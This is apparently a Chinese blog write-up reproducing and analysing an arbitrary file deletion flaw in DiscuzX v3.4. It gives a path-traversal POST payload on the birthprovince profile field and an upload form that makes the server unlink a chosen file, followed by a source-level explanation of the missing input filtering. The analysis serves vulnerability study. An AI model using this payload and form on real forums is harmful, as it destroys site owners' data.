





@Author：Y4tacker

@time：2021/002/22 15:22 PM

# DiscuzX v3.4 任意文件删除漏洞

# 利用过程

继续分析一篇，首先把利用流程试一遍，这次不先分析，先尝试一遍，首先在web根目录下建立一个文件，这里我以`y4.txt`作为例子

第一步:注册一个账户并登录，访问http://yyy.com/home.php?mod=spacecp&ac=profile页面也就是个人设置中心，先找到这个hash值



之后我们利用hackbar构造数据包post

```php
http://yyy.com/home.php?mod=spacecp&ac=profile&op=base

post
birthprovince=../../../y4.txt&profilesubmit=1&formhash=7cfeeea5
```

此时若执行成功，则会有



接下来构造表单

```php
<form action="http://yyy.com//home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="file" name="birthprovince" value="../../../y4.txt"/>
<input type="hidden" name="formhash" value="7cfeeea5"/>
<input type="hidden" name="profilesubmit" value="1"/>
<input type="submit" value="Submit"/>
</from>
```

随便选一个图片上传，之后会发现根目录下的y4.txt已经被删除了

## 分析

关键利用点是下面的unlink函数，$key值很好找，能看到就说foreach循环取得上传表单当中的键



而这个$space变量回溯上去则是个人信息的部分，第24-26行会将用户相关的信息通过数据库提取出来保存到变量$space中，到这里我们也不难知道之前我们是用`birthdayprovince`测试的，其实其他变量都可以，这里不做掩饰了



接下来我们看看是如何到达`unlink`部分的，PHP`*$_FILES* `是一个预定义的数组,用来获取通过 POST 方法上传文件的相关信息



因此只要我们通过文件上传即可到达这里了，来看看我们之前构造的表单

```php
<form action="http://yyy.com//home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="file" name="birthprovince" value="../../../y4.txt"/>
<input type="hidden" name="formhash" value="7cfeeea5"/>
<input type="hidden" name="profilesubmit" value="1"/>
<input type="submit" value="Submit"/>
</from>
```

foreach的$key与$value也就分别对应了表单当中的name与value，并且对value没有过滤条件从而实现了任意文件的删除

我们最后梳理一遍利用流程

> 1. 设置birthprovince(或者其他个人参数)为要删除的文件，比如../../y4.txt
> 2. 上传文件，构造$key 为 birthprovince。
> 3. space[space[key] = $space[birthprovince] =
> 4. 拼接后 unlink(getglobal(XXX/profile/../../y4.txt) 达到任意文件删除。

分析结束，比较简单的一篇